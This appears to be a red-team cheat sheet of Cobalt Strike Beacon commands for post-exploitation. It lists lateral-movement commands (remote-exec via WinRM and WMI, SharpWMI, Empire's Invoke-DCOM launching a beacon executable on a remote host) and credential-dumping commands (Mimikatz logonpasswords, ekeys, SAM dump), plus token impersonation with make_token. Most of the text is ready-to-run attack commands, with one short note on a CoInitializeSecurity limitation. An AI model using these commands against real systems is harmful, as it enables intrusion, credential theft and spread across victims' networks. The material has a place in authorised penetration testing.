 ### WMI exec commands
```
remote-exec winrm <HOSTNAME> whoami; hostname
```

#### CoInitializeSecurity
- Beacon's internal implementation of WMI uses a Beacon Object File, executed using the beacon_inline_execute Aggressor function. When a BOF is executed the CoInitializeSecurity COM object can be called, which is used to set the security context for the current process. According to Microsoft's documentation, this can only be called once per process. The unfortunate consequence is that if you have CoInitializeSecurity get called in the context of, say "User A", then future BOFs may not be able to inherit a different security context ("User B") for the lifetime of the Beacon process.
- if CoInitializeSecurity has already been called, WMI fails with access denied.
- As a workaround, your WMI execution needs to come from a different process. This can be achieved with commands such as spawn and spawnas, or even execute-assembly with a tool such as SharpWMI.

```
remote-exec wmi srv-2 calc
execute-assembly SharpWMI.exe action=exec computername=<HOSTNAME> command="C:\Windows\System32\calc.exe"
```

#### DCOM
- https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
```
powershell Invoke-DCOM -ComputerName <HOSTNAME> -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
```

### Credentials
#### Mimikatz logonpasswords
```
mimikatz sekurlsa::logonpasswords
```

#### Mimikatz ekeys
```
mimikatz sekurlsa::ekeys
```

#### Mimikatz sam
```
mimikatz lsadump::sam
```

#### Make token - runas other user
```
make_token <DOMAIN>\<USER> <PASSWORD>
```

#### rev2self
- Undo the make token
```
rev2self
```
